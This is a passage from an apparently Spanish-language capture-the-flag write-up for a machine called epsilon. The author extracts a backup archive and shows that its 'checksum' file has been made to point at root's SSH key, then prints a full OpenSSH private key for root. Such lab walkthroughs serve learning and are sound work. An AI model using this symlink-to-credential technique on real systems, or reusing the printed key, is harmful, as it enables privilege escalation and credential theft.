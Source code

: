 Y listo

```bash
tom@epsilon:/tmp$ tar -xf 583638874.tar 
tom@epsilon:/tmp$ ls
583638874.tar
opt
systemd-private-03e64754b0a246a0bb9690e91e9cd911-apache2.service-qMsCci
systemd-private-03e64754b0a246a0bb9690e91e9cd911-systemd-logind.service-6U6EAf
systemd-private-03e64754b0a246a0bb9690e91e9cd911-systemd-resolved.service-4q9eWh
systemd-private-03e64754b0a246a0bb9690e91e9cd911-systemd-timesyncd.service-RU6nki
vmware-root_656-2689274927
zi.sh
tom@epsilon:/tmp$ cd opt/
tom@epsilon:/tmp/opt$ ls
backups
tom@epsilon:/tmp/opt$ cd backups/
tom@epsilon:/tmp/opt/backups$ 
```

Y ahora el **checksum** apunta ala **id_rsa** de **root** 

```bash
tom@epsilon:/tmp/opt/backups$ cat checksum 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1w26V2ovmMpeSCDauNqlsPHLtTP8dI8HuQ4yGY3joZ9zT1NoeIdF
16L/79L3nSFwAXdmUtrCIZuBNjXmRBMzp6euQjUPB/65yK9w8pieXewbWZ6lX1l6wHNygr
QFacJOu4ju+vXI/BVB43mvqXXfgUQqmkY62gmImf4xhP4RWwHCOSU8nDJv2s2+isMeYIXE
SB8l1wWP9EiPo0NWlJ8WPe2nziSB68vZjQS5yxLRtQvkSvpHBqW90frHWlpG1eXVK8S9B0
1PuEoxQjS0fNASZ2zhG8TJ1XAamxT3YuOhX2K6ssH36WVYSLOF/2KDlZsbJyxwG0V8QkgF
u0DPZ0V8ckuh0o+Lm64PFXlSyOFcb/1SU/wwid4i9aYzhNOQOxDSPh2vmXxPDkB0/dLAO6
wBlOakYszruVLMkngP89QOKLIGasmzIU816KKufUdLSFczig96aVRxeFcVAHgi1ry1O7Tr
oCIJewhvsh8I/kemAhNHjwt3imGulUmlIw/s1cpdAAAFiAR4Z9EEeGfRAAAAB3NzaC1yc2
EAAAGBANcNuldqL5jKXkgg2rjapbDxy7Uz/HSPB7kOMhmN46Gfc09TaHiHRdei/+/S950h
cAF3ZlLawiGbgTY15kQTM6enrkI1Dwf+ucivcPKYnl3sG1mepV9ZesBzcoK0BWnCTruI7v
r1yPwVQeN5r6l134FEKppGOtoJiJn+MYT+EVsBwjklPJwyb9rNvorDHmCFxEgfJdcFj/RI
j6NDVpSfFj3tp84kgevL2Y0EucsS0bUL5Er6RwalvdH6x1paRtXl1SvEvQdNT7hKMUI0tH
zQEmds4RvEydVwGpsU92LjoV9iurLB9+llWEizhf9ig5WbGycscBtFfEJIBbtAz2dFfHJL
odKPi5uuDxV5UsjhXG/9UlP8MIneIvWmM4TTkDsQ0j4dr5l8Tw5AdP3SwDusAZTmpGLM67
lSzJJ4D/PUDiiyBmrJsyFPNeiirn1HS0hXM4oPemlUcXhXFQB4Ita8tTu066AiCXsIb7If
CP5HpgITR48Ld4phrpVJpSMP7NXKXQAAAAMBAAEAAAGBAMULlg7cg8oaurKaL+6qoKD1nD
Jm9M2T9H6STENv5//CSvSHNzUgtVT0zE9hXXKDHc6qKX6HZNNIWedjEZ6UfYMDuD5/wUsR
EgeZAQO35XuniBPgsiQgp8HIxkaOTltuJ5fbyyT1qfeYPqwAZnz+PRGDdQmwieIYVCrNZ3
A1H4/kl6KmxNdVu3mfhRQ93gqQ5p0ytQhE13b8OWhdnepFriqGJHhUqRp1yNtWViqFDtM1
lzNACW5E1R2eC6V1DGyWzcKVvizzkXOBaD9LOAkd6m9llkrep4QJXDNtqUcDDJdYrgOiLd
/Ghihu64/9oj0qxyuzF/5B82Z3IcA5wvdeGEVhhOWtEHyCJijDLxKxROuBGl6rzjxsMxGa
gvpMXgUQPvupFyOapnSv6cfGfrUTKXSUwB2qXkpPxs5hUmNjixrDkIRZmcQriTcMmqGIz3
2uzGlUx4sSMmovkCIXMoMSHa7BhEH2WHHCQt6nvvM+m04vravD4GE5cRaBibwcc2XWHQAA
AMEAxHVbgkZfM4iVrNteV8+Eu6b1CDmiJ7ZRuNbewS17e6EY/j3htNcKsDbJmSl0Q0HqqP
mwGi6Kxa5xx6tKeA8zkYsS6bWyDmcpLXKC7+05ouhDFddEHwBjlCck/kPW1pCnWHuyjOm9
eXdBDDwA5PUF46vbkY1VMtsiqI2bkDr2r3PchrYQt/ZZq9bq6oXlUYc/BzltCtdJFAqLg5
8WBZSBDdIUoFba49ZnwxtzBClMVKTVoC9GaOBjLa3SUVDukw/GAAAAwQD0scMBrfeuo9CY
858FwSw19DwXDVzVSFpcYbV1CKzlmMHtrAQc+vPSjtUiD+NLOqljOv6EfTGoNemWnhYbtv
wHPJO6Sx4DL57RPiH7LOCeLX4d492hI0H6Z2VN6AA50BywjkrdlWm3sqJdt0BxFul6UIJM
04vqf3TGIQh50EALanN9wgLWPSvYtjZE8uyauSojTZ1Kc3Ww6qe21at8I4NhTmSq9HcK+T
KmGDLbEOX50oa2JFH2FCle7XYSTWbSQ9sAAADBAOD9YEjG9+6xw/6gdVr/hP/0S5vkvv3S
527afi2HYZYEw4i9UqRLBjGyku7fmrtwytJA5vqC5ZEcjK92zbyPhaa/oXfPSJsYk05Xjv
6wA2PLxVv9Xj5ysC+T5W7CBUvLHhhefuCMlqsJNLOJsAs9CSqwCIWiJlDi8zHkitf4s6Jp
Z8Y4xSvJMmb4XpkDMK464P+mve1yxQMyoBJ55BOm7oihut9st3Is4ckLkOdJxSYhIS46bX
BqhGglrHoh2JycJwAAAAxyb290QGVwc2lsb24BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
tom@epsilon:/tmp/opt/backups$ 
```
